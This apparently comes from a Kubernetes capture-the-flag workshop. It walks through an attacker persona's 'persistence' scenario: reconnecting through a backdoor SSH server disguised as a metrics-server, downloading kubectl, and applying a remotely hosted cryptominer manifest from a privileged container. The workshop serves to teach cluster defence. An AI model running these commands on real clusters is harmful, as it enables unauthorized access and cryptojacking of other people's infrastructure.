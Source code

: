 # Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:  

* There is a service account associated with the container which has been granted access to all kubernetes APIs
* The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@<service IP from attack 1> -p 8080
```

Let's redownload kubectl and create our miner:
```console
apk update; apk add curl
cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl
export KUBERNETES_SERVICE_HOST=kubernetes.default.svc
export KUBERNETES_SERVICE_PORT=443
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml
```

Verify that the pod is running:
```console
kubectl get pods -n dev
```

Time for some celebratory pizza!